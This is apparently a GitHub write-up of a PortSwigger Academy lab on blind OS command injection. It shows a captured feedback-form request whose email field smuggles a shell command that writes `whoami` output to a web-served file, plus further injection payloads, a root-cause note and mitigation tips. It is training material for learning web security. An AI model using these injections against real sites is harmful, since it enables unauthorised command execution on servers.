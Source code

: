 

## 💻 Blind OS Command Injection – With Output Redirection

**🧠 Difficulty:** Apprentice
**📚 Platform:** PortSwigger Web Security Academy
**👩‍💻 Author:** Kaouthar Belkebir

---

### 📌 Lab Description

This lab contains a **blind OS command injection** vulnerability, but instead of using time delays to confirm exploitation, we **redirect the output** of our command to a file on the server.

✅ **Goal:** Exploit the injection to redirect the output of `whoami` to a web-accessible location and read the result.

---

### 🧪 Exploitation Strategy

#### 🧩 The Trick:

Because it’s blind, we can’t see any command output directly in the response.
So, we use **output redirection** (`>`) to **write the result to a file** that we can then open in the browser.

---

### 📥 Intercepted Request (via Burp Suite)

```http
POST /feedback/submit HTTP/2
Host: [LAB_DOMAIN]
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

csrf=...&
name=kaouthar&
email=kaoutar%40gmail.com||whoami>/var/www/images/out.txt||&
subject=sjsw6&
message=anksnmm
```

📌 This payload injects the `whoami` command and saves its output in `/var/www/images/out.txt`, a web-accessible location.

---

### 🔍 Confirmation

Once the payload is sent:

* Open your browser and navigate to:
  `https://[LAB_DOMAIN]/image?filename=out.txt`

✅ If the command worked, you’ll see the output of `whoami` (e.g., `peter-ej0vux`) displayed in the browser.

---

### 🧠 Why This Works

* The backend uses shell commands with **unsanitized user input**.
* Injecting `||whoami>/var/www/images/out.txt||` executes the command and stores its output in a public file.

🧪 Other useful payloads you could try:

```bash
||ping -c 10 127.0.0.1||
||echo 'test'>/var/www/images/out.txt||

```

---

### 🔬 Root Cause

* The app concatenates user input directly into a shell command.
* No escaping or validation is in place to prevent shell metacharacter injection.

---

### ✅ Solution Confirmation

* ✅ The response may show: `"Could not save"` — ignore it.
* ✅ Check the file path via browser.
* 🎉 Lab will be marked as **SOLVED** when successful.

---

### 🛡️ Mitigation Strategies

* 🧼 Sanitize all user input before using it in shell commands.
* 🛡️ Prefer **safe system APIs** over direct shell invocation.
* 🧪 Implement **allow-list input validation**.

---

### 🖼️ Screenshot

![Blind OS Command Injection – Output Redirection](https://github.com/Kabilala/OS-command-injection/blob/main/lab3.png?raw=true)

---

